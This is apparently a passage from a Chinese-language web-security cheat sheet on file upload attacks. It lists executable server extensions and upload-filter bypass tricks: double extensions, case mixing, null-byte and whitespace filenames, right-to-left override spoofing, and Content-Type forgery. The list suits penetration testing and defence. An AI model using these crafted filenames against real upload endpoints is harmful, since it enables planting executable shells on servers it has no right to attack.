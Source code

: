 * ASP 服务器

    ```powershell
    .asp
    .aspx
    .config
    .cer 和 .asa # (IIS <= 7.5)
    shell.aspx;1.jpg # (IIS < 7.0)
    shell.soap
    ```

* JSP: `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .actions`
* Perl: `.pl, .pm, .cgi, .lib`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`
* Node.js: `.js, .json, .node`

其他可以被滥用以触发其他漏洞的扩展名。

* `.svg`: XXE, XSS, SSRF
* `.gif`: XSS
* `.csv`: CSV 注入
* `.xml`: XXE
* `.avi`: LFI, SSRF
* `.js` : XSS, Open Redirect
* `.zip`: RCE, DOS, LFI Gadget
* `.html` : XSS, Open Redirect

### 上传技巧

**扩展名**:

* 使用双扩展名: `.jpg.php, .png.php5`
* 使用反向双扩展名（对 Apache 配置错误有用，其中任何以 `.php` 结尾但不一定以 `.php` 结尾的文件都会执行代码）: `.php.jpg`
* 随机大小写: `.pHp, .pHP5, .PhAr`
* 空字节（对 `pathinfo()` 很有效）
    * `.php%00.gif`
    * `.php\x00.gif`
    * `.php%00.png`
    * `.php\x00.png`
    * `.php%00.jpg`
    * `.php\x00.jpg`
* 特殊字符
    * 多个点: `file.php......`，在 Windows 中，创建文件时如果文件名末尾有多个点，这些点会被移除。
    * 空白符和换行符
        * `file.php%20`
        * `file.php%0d%0a.jpg`
        * `file.php%0a`
    * 右至左覆盖（RTLO）: `name.%E2%80%AEphp.jpg` 将变为 `name.gpj.php`。
    * 斜杠: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
    * 多个特殊字符: `file.jsp/././././.`

**文件识别**:

MIME 类型，MIME 类型（Multipurpose Internet Mail Extensions 类型）是一种标准化标识符，用于告诉浏览器、服务器和应用程序正在处理什么类型的文件或数据。它由类型和子类型组成，用斜杠分隔。将 `Content-Type : application/x-php` 或 `Content-Type : application/octet-stream` 改为 `Content-Type : image/gif` 以伪装为图像内容。
